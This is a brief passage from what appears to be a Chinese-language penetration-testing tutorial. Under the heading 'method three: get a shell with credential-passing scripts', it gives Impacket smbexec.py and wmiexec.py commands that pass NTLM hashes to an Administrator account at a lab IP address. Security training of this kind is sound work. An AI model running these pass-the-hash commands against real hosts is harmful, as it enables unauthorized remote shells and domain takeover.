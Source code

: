 [![](assets/1706496056-db4066c583af6b7b2016f3432f4ec51b.png)](https://img2023.cnblogs.com/other/3262985/202309/3262985-20230907172307744-1507419811.png)

#### 法三：凭据传递脚本获取 shell

```plain
①smbexec.py
python smbexec.py -hashes 6f08d7b306b1dad4b75e0c8d76954a50:570a9a65db8fba761c1008a51d4c95ab MAO/Administrator@192.168.126.10

②wmiexec.py
python wmiexec.py -hashes 6f08d7b306b1dad4b75e0c8d76954a50:570a9a65db8fba761c1008a51d4c95ab MAO/Administrator@192.168.126.10
```

[![](assets/1706496056-83cdcd001be0a9854d133897b0d08548.png)](https://img2023.cnblogs.com/other/3262985/202309/3262985-20230907172308890-1103653495.png)
